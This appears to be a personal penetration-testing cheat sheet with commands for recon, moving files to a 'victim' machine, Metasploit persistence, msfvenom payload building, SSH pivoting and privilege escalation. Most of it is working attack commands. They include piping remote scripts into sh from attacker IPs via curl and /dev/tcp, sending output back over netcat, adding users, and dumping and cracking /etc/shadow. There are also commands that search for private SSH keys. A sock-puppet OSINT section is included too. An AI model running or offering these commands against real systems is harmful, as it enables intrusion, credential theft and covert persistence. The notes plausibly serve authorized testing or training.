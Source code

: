 ## Permissions

virtual host routing

dnsrecon for finding domains

```
dnsrecon -r 127.0.0.1/24 -n <ip> -d <make up a domain>
```


## File Transfer
HTTP 
```
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```
FTP
```
python -m pyftpdlib 21 #Host
ftp <ip> #Victim
```
**Windows**
Certutil
```
certutil.exe -urlcache -f http://<attack IP>/<file> <file name>
```
**Linux**
```
wget
```
![[../cheatsheet-file-transfers.pdf]]
## Persistance
*Probably already with a meterpreter shell*

**Scripts**
```
run persistance -h
exploit/windows/local/persistance
exploit/windows/local/registry_persistance
```
**Scheduled Task**
```
run scheduleme
run scheduletaskabuse
```
**Add User**
```
net user <user> <pass> /add
```
**MSFVenom**
```
msfvenom -a <arch> --platform <os> -x <name>.<ext> -k -p windows/messagebox lhost=<ip> -b "\x00" -f exe -o <final_name>.<ext>
```
## Pivoting

SSH proxy through a compromised machine
```
ssh  -f -N -D <Proxy Port> -i pivot <root user>@<proxy ip> 
```
Then run "proxychains" before commands you want to proxy like
```
proxychains nmap -sV <target ip>
```
Other tools that can be used are [sshuttle](https://github.com/sshuttle/sshuttle?tab=readme-ov-file) and [chisel](https://github.com/jpillora/chisel)
```
sshuttle -r <root>@<proxy ip> <new network>/<CIDR> --ssh-cmd "ssh -i proxy"
```

## Linux Privilege Escalation 
Identify Weakness
Wanna find bad SUID permissions?
```
find / -type f -perm -4000 2>/dev/null 
```
GTFOBins
```
/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```
```
cat ~/.bash_history | grep -i passwd
ls -la /etc/shadow
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

```
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null 
```

Always go for a tty shell if you have a worse shell if possible

use a command like [(see here)](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Windows Privilege Escalation
to grab a file to a windows computer 

```
certutil.exe -urlcache -f http://<lhost>/<filename> <name>
```
## Useful files

[PEASS-NG](https://github.com/peass-ng/PEASS-ng)

```
# From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

# Use a linpeas binary
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

### Sock Puppets

Creating an Effective Sock Puppet for OSINT Investigations – Introduction - [https://web.archive.org/web/20210125191016/https://jakecreps.com/2018/11/02/sock-puppets/](https://web.archive.org/web/20210125191016/https://jakecreps.com/2018/11/02/sock-puppets)

The Art Of The Sock - [https://www.secjuice.com/the-art-of-the-sock-osint-humint/](https://www.secjuice.com/the-art-of-the-sock-osint-humint/)

Reddit - My process for setting up anonymous sockpuppet accounts - [https://www.reddit.com/r/OSINT/comments/dp70jr/my_process_for_setting_up_anonymous_sockpuppet/](https://www.reddit.com/r/OSINT/comments/dp70jr/my_process_for_setting_up_anonymous_sockpuppet/)

Fake Name Generator - [https://www.fakenamegenerator.com/](https://www.fakenamegenerator.com/)

This Person Does not Exist - [https://www.thispersondoesnotexist.com/](https://www.thispersondoesnotexist.com/)

Privacy.com - [https://privacy.com/join/LADFC](https://privacy.com/join/LADFC) - *Referral link. We each get $5 credit on sign up.

### Search Engine Operators
```
site:<url>
```
```
"<text>"
```
```
AND
```
```
filetype:<ext>
```
```
-<not text>
```
```
intext:<string>
```
Google Advanced Search


## MISC
In BurpSuite you can "Limit Scope" in proxy settings to allow use of accessing other pages while burp is on
![[../Pasted image 20250508181510.png]]
![[../cheatsheet-using-the-metasploit-framework.pdf]]